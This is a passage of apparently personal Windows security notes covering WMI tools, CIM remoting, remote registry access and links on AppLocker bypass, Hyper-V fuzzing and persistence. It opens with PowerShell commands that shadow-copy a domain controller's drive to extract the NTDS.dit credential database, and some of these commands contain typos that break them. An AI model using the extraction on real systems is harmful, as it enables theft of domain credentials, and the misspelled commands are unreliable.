  - Create a shadow copy of AD's drive and extract NTDS.dit
  - ```
    (Get-WmiObject -Class Win32_ShadowCopy -list).create("C:\", "CreateAccessible")
    $link = (Get-WmiObject -Class Winn32_ShadowCopy).DeviceObject + "\"
    cmd /c mklink /d C:\shadowcopy "$link"
    ```
- AD

### Tools

- WMI Object Browser:
- WMIC

```powershell
# WMIC Verbs can be explored by looking at help 

# Interactive 
wmic 
wmic:root\cli> process /?
wmic:root\cli> group where name='Administrators' assoc

# Non-interactive 
wmic process /?
```

- Powershell WMI Browser
- WMI Code Generator 
- WMIGen

### Remoting 

- WMI Cmdlets  
  - Uses DCOM 
  - Port 135 (winmgmt service)
  - Not firewall / NAT friendly 
  - Data exchanged on dynamic ports (`HKLM\Software\Microsoft\Rpc\Internet`)
- CIM Cmdlets 
  - DCOM 135
  - WinRm/WSMan
    - 5385 - HTTP
    - 5386 - HTTPS
    - Firewall and NAT friendly 

Session over WinRM/WSMan:
```powershell
$sess = New-CimSession -ComputerName <name> -Credential <cred>
Get-CimInstance -CimSession $sess -ClassName Win32_OperatingSystem
```

Session over DCOM:
```powershell
$sessOptions = New-CimSessionOption -Protocol Dcom
$newsess = New-CimSession -ComputerName <name> -Credential <cred> -SessionOption $sessOptions
```

### Access Registry

```powershell
Get-WimObject -Namespace root\default -Class StdRegProv -List

Get-WimObject -Namespace root\default -Class StdRegProv -List | Select-Object -ExpandProperty methods | more

$RegProv = Get-WimObject -Namespace root\default -Class StdRegProv -List 
$RegProv.Methods 
```

```powershell
$RemoteReg = Get-WmiObject -List "StdRegProv" -ComputerName <name> -Credential <cred>
$RemoteReg | Select-Object -ExpandProperty methods | more
$RemoteReg.getStringValue(<id>, <path>, <propertyName>)
```

```powershell
WmiInvokeMethod -Namespace root\default -Class StdRegProv -Name GetStringValue @(<id>,<path>,<property>)
```

```powershell
Posh_SecMod \ Registry.ps1 
```

### References

- [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)
- [Exposing System Secrets with VBA and WMI API](https://sites.google.com/site/beyondexcel/project-updates/exposingsystemsecretswithvbaandwmiapi)
- [How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)

## AppLocker

- <https://github.com/api0cradle/UltimateAppLockerByPassList>

## HyperV

- Fuzzing para-virtualized devices in Hyper-V: <https://blogs.technet.microsoft.com/srd/2019/01/28/fuzzing-para-virtualized-devices-in-hyper-v/>
- Writing a Hyper-V "Bridge" for Fuzzing — Part 1: WDF: <http://www.alex-ionescu.com/?p=377>
- Writing a Hyper-V "Bridge" for Fuzzing — Part 2 : Hypercalls & MDLs: <http://www.alex-ionescu.com/?p=471>
- <https://blogs.technet.microsoft.com/srd/2018/12/10/first-steps-in-hyper-v-research/>
- <https://blogs.technet.microsoft.com/srd/2018/05/03/hyper-v-debugging-symbols-are-publicly-available/>
- <https://github.com/comaeio/LiveCloudKd>

## Events

**Tools**

- EtwExplorer - View Event Tracing for Windows (ETW) Provider manifests: <https://github.com/zodiacon/EtwExplorer>

## Defense 

- Windows 10 and Server 2016 Secure Baseline Group Policy: <https://github.com/mxk/win10-secure-baseline-gpo>
- Preventing Mimikatz Attacks by Panagiotis Gkatziroulis: <https://hakin9.org/preventing-mimikatz-attacks/>
- Server Security
  - <https://docs.microsoft.com/en-us/windows-server/security/security-and-assurance>

## References

- Schtasks without Schtasks.exe via Reflective DLL: <https://ijustwannared.team/2018/08/13/schtasks-without-schtasks-exe-via-reflective-dll/>
- Windows 10 Persistence via PATH directories - CDPSvc: <https://www.a12d404.net/windows/2019/01/13/persistance-via-path-directories.html>
  - CDPSvc (Connected Devices Platform Service) searches the file cdpsgshims.dll inside PATH directories and loads it if found.
  - With a default Windows installation, there can’t be a non-admin directory in the PATH, so this can’t be exploited.
  - A sample DLL (source included) that executes calc.exe is available here: <https://github.com/marpie/a12d404.net-files/tree/master/CDPSvcPersist>
- Useful for vulnerability research workflows on Windows: <https://gist.github.com/jthuraisamy/af862987fff437daec52ee3cc5894203>
- Windows 10 Device Security: <https://query.prod.cms.rt.microsoft.com/cms/api/am/binary/RE2IIVu>
- Windows Command Line cheatsheet (part 1): some useful tips: <https://www.andreafortuna.org/technology/windows/windows-command-line-cheatsheet-part-1-some-useful-tips/>
- Windows Command Line cheatsheet (part 2): WMIC: <https://www.andreafortuna.org/dfir/windows-command-line-cheatsheet-part-2-wmic/>

### Kernel

- Kernel Internals - Windows Sandbox: <https://techcommunity.microsoft.com/t5/Windows-Kernel-Internals/Windows-Sandbox/ba-p/301849>